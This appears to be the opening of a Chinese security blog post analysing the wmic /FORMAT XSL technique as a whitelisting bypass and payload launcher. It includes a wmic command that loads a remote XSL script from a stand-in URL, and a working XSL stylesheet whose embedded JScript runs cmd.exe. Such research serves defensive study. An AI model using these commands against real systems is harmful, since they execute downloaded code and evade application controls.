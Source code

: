 ```yaml
---
layout: post
title: 利用wmic调用xsl文件的分析与利用
---
```



## 0x00 前言
---

Casey Smith@subTee在博客分享的一个技巧，使用wmic能够从本地或从URL调用XSL（可扩展样式表语言）脚本。这个发现很有用，不仅可以作为一种白名单绕过的方法，而且可以作为payload来使用(从URL调用XSL脚本，利用XSL执行exe、shellcode、powershell脚本)。

本文将要对该项技术进行测试，结合自己的经验对其扩展，分享一个后门利用的思路，介绍同XXE漏洞结合的使用方法。

博客地址：

https://subt0x11.blogspot.ca/2018/04/wmicexe-whitelisting-bypass-hacking.html?m=1

## 0x01 简介
---

本文将要介绍以下内容：

- 测试Casey Smith的方法
- 脚本分析，分析后门利用思路
- 编写后门利用脚本
- 同XXE漏洞的结合

## 0x02 测试Casey Smith的方法
---

本地：

```
wmic process list /FORMAT:evil.xsl
```

远程：

```
wmic os get /FORMAT:"https://example.com/evil.xsl"
```


xsl文件内容如下：

```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```
